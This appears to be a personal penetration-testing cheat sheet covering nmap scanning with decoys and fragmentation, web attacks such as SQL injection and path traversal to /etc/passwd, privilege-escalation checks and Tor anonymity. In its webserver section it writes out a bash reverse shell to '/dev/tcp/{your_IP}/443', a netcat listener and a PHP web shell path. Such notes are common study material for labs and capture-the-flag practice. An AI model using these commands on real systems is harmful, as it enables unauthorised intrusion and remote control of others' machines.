 # Target enumeration
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)
2. Processes
    - `ps aux`
3. Ports
    - `ss`
    - `netstat -tunlp`
        - `-t` (TCP)
        - `-u` (UDP)
        - `-n` (No service resolution)
        - `-l` (Only listening)
        - `-p` (Process info)

    - `lsof`
4. Webservers
    - Spider website (e.g. using Burp Suite Proxy without intercept)
    - Enumerate subdomains and dirs (e.g. with `gobuster`)
    - Vulnerabilities with OWASP

# Webservers
1. Gain read access on webserver
    - Enumerate login forms
    - XSS, SQL-Injection
    - Path traversal
        - .htpasswd
        - /etc/passwd
        - /etc/group
2. Gain write access on webserver
    - Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - /usr/share/webshells/php/php-reverse-shell.php
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point
3. Search webserver
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`
        - Check vulnerable binaries https://gtfobins.github.io/

# Privilege escalation
1. User permissions: `whoami`, `id`, `sudo -l`
2. User groups
    - `lxd`: Containers

# Network traffic
1. Monitor TCP/IP traffic (e.g. LDAP) `sudo tcpdump -i tun0 port 389`


# Password cracking
1. Use Google as Rainbow Table

## Windows
`impacket-psexec`

# Privacy
1. Tails
2. Proxychains with TOR